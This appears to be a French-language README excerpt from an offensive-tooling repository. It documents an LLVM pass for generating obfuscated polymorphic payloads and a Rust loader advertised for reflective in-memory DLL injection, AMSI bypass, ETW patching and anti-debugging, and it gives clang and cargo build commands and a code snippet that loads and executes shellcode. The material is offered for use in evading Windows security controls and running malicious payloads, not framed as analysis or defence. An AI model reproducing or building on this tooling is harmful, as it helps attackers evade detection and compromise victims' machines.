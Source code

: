 #### Usage

```bash
# Génération de payload obfusqué
clang -Xclang -load -Xclang ./PolymorphicPass.so \
      -c payload.c -o payload.o

# Avec obfuscation maximale
clang -O3 -mllvm -genjutsu-level=extreme \
      -Xclang -load -Xclang ./PolymorphicPass.so \
      payload.c -o payload
```

#### Performance
- **Build time** : < 3 minutes
- **Taux d'obfuscation** : 85%+
- **Taille du payload** : +30% (en moyenne)

### 2. Ghost Compiler

#### Description
Loader Rust no_std pour injection reflective in-memory sans traces sur disque.

#### Fichier
`offensive-ops/ghost/src/lib.rs`

#### Fonctionnalités
- ✅ Memory allocation RWX
- ✅ Reflective DLL injection
- ✅ RC4 encryption
- ✅ Anti-debugging checks
- ✅ AMSI bypass
- ✅ ETW patching

#### Build

```bash
cd offensive-ops/ghost

# Build pour Windows
cargo build --release --target x86_64-pc-windows-msvc

# Build pour Linux
cargo build --release --target x86_64-unknown-linux-gnu
```

#### API Usage

```rust
use ghost_compiler::GhostLoader;

// Charger et exécuter un shellcode
let mut loader = GhostLoader::new();
unsafe {
    loader.load_and_execute(&shellcode)?;
}

// Reflective loading
unsafe {
    GhostLoader::reflective_load(&shellcode, entry_offset)?;
}
```
